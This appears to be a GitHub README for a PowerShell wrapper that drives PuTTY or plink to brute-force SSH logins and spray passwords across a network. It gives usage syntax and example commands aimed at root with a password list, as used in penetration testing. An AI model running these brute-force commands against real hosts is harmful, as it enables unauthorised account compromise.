 # SSH PuTTY login bruteforcer

The **ssh-putty-brute.ps1** is a wrapper script which uses PuTTY clients (either **putty.exe** or **plink.exe**) to perform SSH login bruteforce attacks.

See the main article for detailed description: https://www.infosecmatter.com/ssh-brute-force-attack-tool-using-putty-plink-ssh-putty-brute-ps1/

## Usage and examples

The tool requires either **putty.exe** or **plink.exe** executables in the PATH or in the current working directory.

Here's how to use this tool:

```
import-module .\ssh-putty-brute.ps1

# Usage:
ssh-putty-brute [-h ip|ips.txt] [-p port] [-u user|users.txt] [-pw pass|pwdlist.txt]

# Examples:
ssh-putty-brute -h 10.10.5.11 -p 22 -u root -pw P@ssw0rd
ssh-putty-brute -h 10.10.5.11 -p 22 -u root -pw (Get-Content .\pwdlist.txt)
```

## Screenshots

SSH login attack against a single target:

![ssh-putty-bruteforce-login-attack-0](https://user-images.githubusercontent.com/60963123/80275175-93e8c500-86f0-11ea-9838-346e68f404b5.png)

SSH password spraying accross the network:

![ssh-putty-bruteforce-login-attack-password-spraying](https://user-images.githubusercontent.com/60963123/80275055-e8d80b80-86ef-11ea-9ada-1fc84ce58f71.png)

Hunting for default SSH credentials:

![ssh-putty-bruteforce-login-attack-full](https://user-images.githubusercontent.com/60963123/80275192-af53d000-86f0-11ea-80bb-e52cdd490753.png)

For more information, visit: https://www.infosecmatter.com/ssh-brute-force-attack-tool-using-putty-plink-ssh-putty-brute-ps1/

